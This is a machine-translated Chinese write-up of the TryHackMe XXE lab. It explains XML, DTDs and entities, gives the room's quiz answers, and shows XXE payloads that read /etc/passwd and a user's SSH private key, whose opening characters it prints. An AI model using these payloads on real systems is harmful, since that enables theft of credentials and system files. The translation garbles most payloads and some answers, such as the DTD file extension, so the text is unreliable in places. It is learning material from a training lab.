



# XXE——TryHackme 报道

> 原文：<https://infosecwriteups.com/xxe-tryhackme-writeup-29fb1e0e2666?source=collection_archive---------1----------------------->

## XML 外部实体报告

欢迎回来伟大的黑客我在这里另一个很酷的话题 OWASP 十大话题之一是 XXE 攻击概念。XXE 代表滥用 XML 数据/解析器的 XML 外部实体。它允许黑客与后端数据进行交互。这将导致拒绝服务攻击和 SSRF，在某些情况下可能导致 RCE 攻击。

***XXE 攻击有带内和带外两种:***

**带内:**黑客注入 XXE 载荷后可以得到即时响应。**坏的:**web 应用程序没有立即响应。

因为我们了解了 XXE 漏洞，所以我们必须了解 XML。

**什么是 XML？**

XML 可扩展标记语言是一种标记语言，它定义了一组规则，用于以机器可读和人类可读的格式对文档进行编码。它用于存储和传输数据。

**我们为什么要使用 XML？**

1.因为 XML 是平台和编程语言不可知的，所以它可以在任何系统上使用，并且随着技术的变化而变化。

2.XML 数据可以随时修改，而不会影响数据的外观。

3.XML 支持 DTD 和模式验证。该验证验证 XML 文档中没有语法错误。

4.由于其平台独立性，XML 使得系统间的数据交换更加容易。在系统之间传输 XML 数据时，不需要转换它。

任务:

> **XML 的完整形式**

可扩展标记语言

> **XML 区分大小写吗？**

是

> **XML 文档中一定要有 XML prolog 吗？**

不

> 我们能根据 so 模式验证 XML 文档吗？

是

> 如何在 XML 文档中指定 XML 版本和编码？

XML prolog

在开始研究 XXE 之前，我们需要知道 XML 中的 DTD 是什么。

文档类型定义(DTD)是文档类型定义的缩写。XML 文档的结构允许 DTD 定义组件和属性。

> 现在让我们看看 DTD 是如何验证 XML 的。这是便条中提到的所有术语的清单。
> 1。！DOCTYPE 注释—定义文档的根元素，注释
> 2。！元素注释-这指定注释元素必须包括以下元素:"收件人、发件人、标题和正文"
> 3。！元素 to-将元素 to 的类型定义为“# PC data”
> 4。！元素来源-将来源元素的类型定义为“# PC data”
> 5。！元素标题-将标题元素的类型定义为“# PC data”
> 6。！元素主体—将主体元素的类型定义为“#PCDATA”。

任务

> 你用什么扩展名保存 DTD 文件？

文档类型定义（Document Type Definition 的缩写）

> 你如何定义一个新元素？

！元素

> **如何定义根元素？**

！文档类型

> **如何定义一个新实体？**

！实体

现在，我们可以通过在易受攻击的 web 应用程序中注入有效负载来了解 XXE 是如何工作的。

> **Ist 有效载荷:**
> 
> **<？xml version="1.0 "？>
> <！DOCTYPE 替换[ <！实体名>>
> <userInfo>
> <名>隼</名>
> <姓> &名；</姓氏>
> </userInfo>**

注入这个简单的有效载荷后，我们将知道漏洞是否在 web 应用程序上起作用。

有效载荷 2:

我们尝试通过应用有效负载来读取系统文件

> `<?xml version="1.0"?>
> <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
> <root>&read;</root>`

任务:

> /etc/passwd 中的用户名是什么

猎鹰

> falcon 私钥的前 18 个字符是什么

使用的有效载荷:

> **<？xml version="1.0 "？>
> ！DOCTYPE 根[ <！实体读取系统' file:///home/falcon/。ssh/id _ RSA '>>
> <root>&read；</根>/**

MIIEogIBAAKCAQEA7